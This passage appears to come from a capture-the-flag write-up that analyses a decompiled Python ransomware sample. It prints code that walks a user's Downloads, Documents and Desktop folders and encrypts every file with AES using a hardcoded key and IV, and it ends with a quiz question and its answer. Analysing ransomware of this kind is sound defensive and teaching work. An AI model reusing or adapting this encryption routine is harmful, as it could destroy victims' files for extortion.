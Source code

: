 ```py
def yGN9pu2XkPTWyeBK(directory: str) -> list:
    filenames = []
    for filename in os.listdir(directory):
        result = os.path.join(directory, filename)
        if os.path.isfile(result):
            filenames.append(result)
        else:
            filenames.extend(yGN9pu2XkPTWyeBK(result))

    return filenames


def main() -> None:
    username = os.getlogin()
    if username != 'developer13371337':
        exit(1)
    directories = [f"/home/{username}/Downloads",
     f"/home/{username}/Documents",
     f"/home/{username}/Desktop"]
    for directory in directories:
        if os.path.exists(directory):
            files = yGN9pu2XkPTWyeBK(directory)
            for fil in files:
                try:
                    mv18jiVh6TJI9lzY(fil)
                except Exception as e:
                    pass

    print_note()


if __name__ == '__main__':
    main()
```

**In the function `mv18jiVh6TJI9lzY`, it's using AES to encrypt data:**
```py
def mv18jiVh6TJI9lzY(filename: str) -> None:
    data = open(filename, 'rb').read()
    key = 'vN0nb7ZshjAWiCzv'
    iv = 'ffTC776Wt59Qawe1'
    cipher = AES.new(key.encode('utf-8'), AES.MODE_CFB, iv)
    ct = cipher.encrypt(data)
    Pkrr1fe0qmDD9nKx(filename, ct)
```

- Answer: `mv18jiVh6TJI9lzY`

```
After decompiling the ransomware, what is the name of the function used for encryption? (for example: encryption)

> mv18jiVh6TJI9lzY
[+] Correct!
```
